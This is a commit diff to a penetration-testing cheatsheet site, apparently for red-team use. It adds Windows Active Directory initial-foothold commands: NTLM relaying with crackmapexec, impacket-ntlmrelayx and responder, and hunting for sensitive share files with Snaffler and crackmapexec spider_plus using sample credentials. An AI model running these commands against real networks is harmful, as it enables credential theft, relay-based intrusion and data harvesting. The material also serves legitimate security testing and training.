

Before and after one commit to trojand/cheatsheet, an MkDocs documentation site: the page built from docs/Windows/Initial_Foothold.md, in a window 1280 px wide and 900 px high, scrolled down 2644 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update Initial_Foothold.md

````diff
--- a/docs/Windows/Initial_Foothold.md
+++ b/docs/Windows/Initial_Foothold.md
@@ -101,7 +101,16 @@ sudo docker run -v ${PWD}:/bloodhound-data -it bloodhound
             * Although the commands in the reference work, I found that it was easier to modify permissions and other actions (reset user password) using RSAT.
             * If you're Windows attacking VM is connected to the network, just [run mmc as a domain user](./Initial_Foothold.html#rsat) (provided you already have the domain user's credentials).
 
-___
+---
+## NTLM Relaying
+* Basic NTLM Relay
+    * Gather NTLM Relay list using crackmapexec
+        * `crackmapexec smb --gen-relay-list relay_list.txt company_internal_subnets.txt`
+```bash
+sudo impacket-ntlmrelayx -socks -smb2support -of output.txt -tf ./relay_list.txt -c ipconfig
+sudo responder -I eth1 -Pvd
+```
+---
 ## General Attack methods
 * Methods [^5][^6]
      * NTLM Relay[^18]
@@ -193,11 +202,23 @@ Import-Module .\DomainPasswordSpray.ps1
 Invoke-DomainPasswordSpray -Password Spring2017
 ```
 
-### Find interesting Domain Share Files[^12]
-```powershell
-Find-InterestingDomainShareFile
-```
+---
 
+## Find interesting Domain Share Files[^12]
+* Find-InterestingDomainShareFile
+    ```powershell
+    Find-InterestingDomainShareFile
+    ```
+* Snaffler
+    ```batch
+    runas /netonly /user:domain.local\victim01 cmd.exe
+    snaffler.exe -s -o snaffler_.log
+    ```
+* Crackmapexec
+    * Also refer to [this](./Post_Exploitation.html#looking-for-files-in-the-domain)
+    ```bash
+    crackmapexec smb -d domain.local -u victim01 -p P@ssw0rd -M spider_plus
+    ```
 
 ---
 ## Direct Attacks to the Domain Controller
````
Also changed, not shown: other parts of docs/Windows/Initial_Foothold.md (+1 -0 lines).
